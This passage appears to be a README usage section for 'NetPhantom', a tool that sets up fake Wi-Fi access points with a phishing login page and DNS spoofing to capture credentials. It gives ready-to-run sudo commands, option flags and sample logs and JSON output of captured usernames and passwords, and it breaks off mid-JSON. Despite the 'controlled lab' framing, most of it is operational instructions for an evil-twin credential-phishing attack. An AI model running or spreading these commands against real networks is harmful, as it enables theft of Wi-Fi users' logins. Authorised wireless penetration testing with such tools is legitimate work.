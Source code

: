 ## Usage
NetPhantom creates fake Wi-Fi APs and servers to capture credentials in a controlled lab setting. Below are examples and expected outcomes.

### Basic Commands
Start fake AP and HTTP server:
```bash
sudo python3 netphantom.py -i wlan0 -s MyAP -p login.html
```

Enable DNS spoofing in quiet mode:
```bash
sudo python3 netphantom.py -i wlan0 -s MyAP -p login.html --dns-spoof -T 5 -q
```

### Options
- `-i, --interface`: Wireless interface (required, e.g., `wlan0`).
- `-s, --ssid`: SSID for fake AP (required, e.g., `MyAP`).
- `-p, --phishing-page`: Phishing page file (default: `login.html`).
- `--dns-spoof`: Enable DNS spoofing.
- `-T, --threads`: Number of threads (default: 5).
- `-q, --quiet`: Log to file only.

### Features

#### Fake Access Point
- **Purpose**: Emulate a Wi-Fi AP to attract clients.
- **Usage**:
  ```bash
  sudo python3 netphantom.py -i wlan0 -s MyAP -p login.html
  ```
- **Output**:
  ```
  2025-05-15 14:00:00 - INFO - Starting NetPhantom with SSID: MyAP
  2025-05-15 14:00:02 - INFO - Fake AP started
  ```
- **Tips**: Use **WiFiCrush** to capture handshakes for WPA testing.

#### Credential Capture
- **Purpose**: Log credentials via phishing page.
- **Usage**:
  ```bash
  sudo python3 netphantom.py -i wlan0 -s MyAP -p login.html
  ```
- **Output**:
  ```
  2025-05-15 14:00:05 - INFO - Credential captured: username=test&password=secret
  ```
- **Result File** (`netphantom-output/phantom_MyAP_20250515_140000.txt`):
  ```
  [2025-05-15 14:00:05] POST /: username=test&password=secret
  [2025-05-15 14:00:06] Phantom run complete
  ```
- **JSON File** (`netphantom-output/phantom_MyAP_20250515_140000.json`):
  ```json
  {
    "ssid": "MyAP",
    "interface": "wlan0",
    "credentials": [
      {
        "method": "POST",
        "path": "/",
        "headers": {},
        "body": "username=test&password=secret",
        "timestamp": "2025-05-15 14:00:05"
  ```